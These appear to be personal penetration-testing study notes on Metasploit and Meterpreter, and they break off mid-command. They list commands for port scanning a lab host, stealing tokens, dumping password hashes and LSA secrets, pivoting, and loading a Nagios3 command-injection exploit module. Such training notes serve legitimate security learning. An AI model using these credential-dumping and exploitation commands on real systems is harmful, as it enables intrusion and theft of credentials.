 # Meterpreter
MSF scanning target
msf6: `db_nmap -sV -p- -T5 -A 10.10.10.15`
We can thereafter query for `services` or `hosts`

We can steel tokens with `steal_token <nr>`

we can get suggestions for exploits: `post/multi/recon/local_exploit_suggester  `
We can get user id from session: `meterpreter > getuid`

### MSF - Dumping Hashes
`meterpreter > hashdump`
`lsa_dump_sam`

### MSF - Meterpreter LSA Secrets Dump
`meterpreter > lsa_dump_secrets`

From this point, if the machine was connected to a more extensive network, we could use this loot to pivot through the system, gain access to internal resources and impersonate users with a higher level of access if the overall security posture of the network is weak.

# Writing and Importing Modules
If we cannot find the exploit we're looking for, 
search in cli: `searchsploit nagios3 (name)`
Filter: `searchsploit -t Nagios3 --exclude=".py"`

Adding modules live: `cp ~/Downloads/9861.rb /usr/share/metasploit-framework/modules/exploits/unix/webapp/nagios3_command_injection.rb`
`msfconsole -m /usr/share/metasploit-framework/modules/`
`loadpath /usr/share/metasploit-framework/modules/`

```bash
msf6 > reload_all
msf6 > use exploit/unix/webapp/nagios3_command_injection 
msf6 exploit(unix/webapp/nagios3_command_injection) > show optio
```